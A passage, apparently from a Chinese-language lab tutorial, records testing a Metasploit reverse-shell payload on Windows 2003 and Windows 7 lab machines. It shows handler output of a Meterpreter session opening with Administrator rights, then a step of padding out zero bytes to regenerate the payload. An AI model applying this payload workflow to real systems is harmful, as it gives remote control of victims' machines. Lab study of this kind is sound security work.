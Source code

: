 **第二次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。  

![](../do/media/a1daafaffa7abc656d309fb8429cbebf.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232 
```

### 第三次优化payload：

在00000E60起含有大部分000h，充填掉00，在次生成payload。

```code
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
....
```